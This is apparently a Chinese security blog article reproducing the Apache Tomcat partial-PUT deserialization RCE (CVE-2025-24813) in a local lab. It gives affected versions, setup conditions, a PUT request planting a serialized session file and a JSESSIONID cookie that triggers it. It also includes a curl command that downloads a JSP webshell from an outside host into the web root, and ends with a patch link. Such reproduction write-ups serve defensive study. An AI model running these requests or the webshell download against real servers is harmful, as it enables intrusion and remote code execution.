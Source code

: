> **原文链接**: https://mp.weixin.qq.com/s?__biz=MzI4MjkxNzY1NQ==&mid=2247485985&idx=1&sn=77e197ee7c913ad96cdc2f038191fd99

#  【漏洞复现】Apache Tomcat 命令执行漏洞（CVE-2025-24813)  
稻草人  玄武盾网络技术实验室   2025-06-23 13:52  
  
**“**  
 对我们感兴趣的话就点个关注吧！**”**  
  
## 漏洞介绍  
  
**Apache Tomcat 命令执行漏洞（CVE-2025-24813)**  
  
Tomcat 作为一款开源的轻量级 Web 应用服务器与 Servlet 容器，由 Apache 软件基金会旗下 Jakarta 项目负责开发，是当下极为流行的 Java Web 服务器之一。  
  
**漏洞影响范围**  
- 9.0.0.M1 <= tomcat <= 9.0.98  
  
- 10.1.0-M1 <= tomcat <= 10.1.34  
  
- 11.0.0-M1 <= tomcat <= 11.0.2  
  
**漏洞原理分析**  
  
在 Tomcat 里，HTTP PUT 请求中的 Content-Range 头字段主要发挥着实现大文件分块传输的重要作用。当文件上传处于未完成状态时，这些上传内容会被临时存放在 Tomcat 工作目录中，具体位置是：
```
$CATALINA_BASE/work/Catalina/localhost/ROOT
```

  
。  
  
![upload5image-20250321211125092.png](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0m7IMzmyBesqxANnoQ2gekwXJta5Wgcwc8rOdbaJspzy1fn1icxOFKNicrpNe02TQ0x5ABtUOzXMvyQ/640?wx_fmt=jpeg&from=appmsg "")  
  
    
该漏洞的核心在于不完整 PUT 请求上传时的文件名处理机制，其会将文件路径中的分隔符 
```
/
```

  
 转换为 
```
.
```

  
。例如，访问路径 
```
/xxxxx/session
```

  
 会被解析为 
```
.xxxxx.session
```

  
。因此，整个漏洞的利用过程为  
：  
1. Tomcat的File会话存储默认路径同样位于：
```
CATALINA_BASE/work/Catalina/localhost/ROOT
```

  
  
1. 当存在反序列化利用链时，可以上传包含恶意序列化数据的文件  
  
1. 通过设置
```
JSESSIONID=.xxxxx
```

  
来触发漏洞  
  
## 环境搭建  
  
该漏洞的利用条件较为苛刻，其核心成因是：当 Tomcat 处理不完整的 HTTP PUT 请求时，会依据用户提供的文件名及路径动态生成临时文件。若以下条件同时满足，攻击者即可执行任意代码：  
1. **默认 Servlet 启用了写权限（默认禁用）**  
  
1. **启用了部分PUT请求支持（默认启用）**  
  
1. **应用程序使用 Tomcat 的基于文件的会话持久化（默认存储位置）**  
  
1. **应用程序包含可被利用于反序列化攻击的库**  
  
下面就是需要下载和配置的设置  
  
复现版本Tomcat 9.0.98  

```
https://archive.apache.org/dist/tomcat/tomcat-9/v9.0.98/bin/apache-tomcat-9.0.98.zip
```

  
**构造利用条件：**  
  
条件一、需要在conf/web.xml中，将DefaultServlet的readonly配置为false，启用写入功能  

```
<init-param>
<param-name>readonly</param-name>
<param-value>false</param-value>
</init-param>
```

  
![upload5image-20250321205642707.png](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0m7IMzmyBesqxANnoQ2gekwNBicicwzP79VwUAv8dICwtQTOHiaSXQRCzibUlWxTKyTb7FGjGvib8eNB3A/640?wx_fmt=jpeg&from=appmsg "")  
  
条件二、PUT方法默认开启  
  
条件三、在conf/context.xml中，开启File文件会话存储  

```
<Manager className=&#34;org.apache.catalina.session.PersistentManager&#34;>        
<Store className=&#34;org.apache.catalina.session.FileStore&#34;/>
</Manager>
```

  
![upload5image-20250321205736018.png](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0m7IMzmyBesqxANnoQ2gekwDibE3GibA3icWIxxxvjzpfwwllC2xnlqjMdbLiaicoFjnNLXVvbdZNOeGPA/640?wx_fmt=jpeg&from=appmsg "")  
  
条件四、下载 commons-collections-3.2.1.jar, 把 jar 包放入
```
webapps\ROOT\WEB-INF\lib
```

  
目录下，如果没有这个目录就创建一个  

```
https://repo1.maven.org/maven2/commons-collections/commons-collections/3.2.1/commons-collections-3.2.1.jar
```

  
![upload5image-20250321205923994.png](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0m7IMzmyBesqxANnoQ2gekwnX61Bd5AibP7JK58amfPYBa6GqXa0gckyYkFICUEfLvYBLfKkYgwia1w/640?wx_fmt=jpeg&from=appmsg "")  
  
环境搭建好后就可点击bin目录下面的
```
startup.bat
```

  
启动环境。  
  
![upload5image-20250321232535464.png](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0m7IMzmyBesqxANnoQ2gekwT3YBz5pdhv1DmgLsXrYLQXu2R9dicKbczHQpdiazlDicQZFCXGta2DRew/640?wx_fmt=jpeg&from=appmsg "")  
## 漏洞复现  
  
【Yso-Java Hack】模块生成一个利用payload：  
  
![upload5image-20250321174901535.png](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0m7IMzmyBesqxANnoQ2gekwWNGHBfsLEQSjXkicXUbS7FHUjQq71dSeehAAfzG6qdGxpvia68nvTynQ/640?wx_fmt=jpeg&from=appmsg "")  
  
在使用该数据包进行上传时，请务必确保以下几点：  
  
1. **Range 头字段的分块值必须与 Content-Length 完全一致，**  
1. **Content-Length 的值需大于目标文件的当前长度，以此确保能覆盖原有内容。**  

```
PUT /xxxxx/session HTTP/1.1  
Host: 127.0.0.1:8080  
Content-Length: 1000  
Content-Range: bytes 0-1000/1200  

{{反序列化文件内容)}}
```

  
  
下面poc可触发  

```
GET / HTTP/1.1
Host: 127.0.0.1:8080
Cookie: JSESSIONID=.xxxxx
```

  
  
也能够上传 webshell，只需对执行命令进行修改即可。默认情况下，执行 cmd 的位置是 bin 目录，将 webshell 上传到该目录是没有用的，所以修改一下路径就行。其他诸如反弹 shell 等操作，原理都是一样的。  
  
  
要是写入失败，有可能是本地普通用户没有写入文件的权限，对权限进行设置后就可以成功写入了。  

```
curl -o &#34;..\webapps\ROOT\shell.jsp&#34; &#34;https://www.plumstar.cn/shell.jsp&#34;
```

  
  
  
你上传的 JSP WebShell 确实已成功写入服务器，但由于 Tomcat 的安全机制限制，该文件可能被标记为不可执行或不可访问。  
  
![upload5image-20250322210814834.png](https://mmbiz.qpic.cn/mmbiz_jpg/UM0M1icqlo0m7IMzmyBesqxANnoQ2gekwNWX1uVoBZv5abggO5ibbUs7N0H3oDR7U47WHict0MILa6gfNeHKlsz8A/640?wx_fmt=jpeg&from=appmsg "")  
# 修复方案  
  
目前Apache官方已公布漏洞公告，可下载补丁更新：https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq  
  
领导说不点「推荐」就扣我鸡腿！救救孩子吧。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/UM0M1icqlo0knIjq7rj7rsX0r4Rf2CDQylx0IjMfpPM93icE9AGx28bqwDRau5EkcWpK6WBAG5zGDS41wkfcvJiaA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
声明：  
技术文章均收集于互联网，仅作为本人学习、记录使用。  
侵权删  
！  
！  
  
